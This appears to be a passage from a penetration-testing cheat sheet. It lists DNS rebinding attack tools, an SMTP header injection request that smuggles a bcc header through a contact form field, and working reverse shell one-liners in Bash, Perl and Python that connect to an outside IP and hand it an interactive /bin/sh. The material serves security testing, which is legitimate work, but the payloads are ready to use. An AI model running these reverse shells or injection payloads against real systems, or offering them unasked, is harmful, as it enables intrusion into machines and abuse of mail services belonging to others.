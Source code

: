 ### DNS Rebinding
http://rebind.it
<br># Singularity of Origin is a tool to perform DNS rebinding attacks. It includes the necessary components to rebind the IP address of the attack server DNS name to the target machine's IP address and to serve attack payloads to exploit vulnerable software on the target machine.

https://github.com/brannondorsey/dns-rebind-toolkit
<br># DNS Rebind Toolkit is a frontend JavaScript framework for developing DNS Rebinding exploits against vulnerable hosts and services on a local area network (LAN).

https://github.com/brannondorsey/whonow
<br># A malicious DNS server for executing DNS Rebinding attacks on the fly.

https://nip.io
<br># Dead simple wildcard DNS for any IP Address

https://sslip.io
<br># sslip.io is a DNS (Domain Name System) service that, when queried with a hostname with an embedded IP address, returns that IP Address.

http://1u.ms/
<br># This is a small set of zero-configuration DNS utilities for assisting in detection and exploitation of SSRF-related vulnerabilities. It provides easy to use DNS rebinding utility, as well as a way to get resolvable resource records with any given contents.

### SMTP Header Injection
https://www.acunetix.com/blog/articles/email-header-injection/
<br># It is common practice for web pages and web applications to implement contact forms, which in turn send email messages to the intended recipients. Most of the time, such contact forms set headers. These headers are interpreted by the email library on the web server and turned into resulting SMTP commands, which are then processed by the SMTP server.
<br>```POST /contact.php HTTP/1.1```
<br>```Host: www.example2.com```
<br>``` ```
<br>```name=Best Product\nbcc: everyone@example3.com&replyTo=blame_anna@example.com&message=Buy my product!```

### Reverse Shell
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
<br># If you’re lucky enough to find a command execution vulnerability during a penetration test, pretty soon afterwards you’ll probably want an interactive shell.
<br># Bash
<br>```bash -i >& /dev/tcp/10.0.0.1/8080 0>&1```

<br># PERL
<br>```perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'```

<br># Python
<br>```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'```
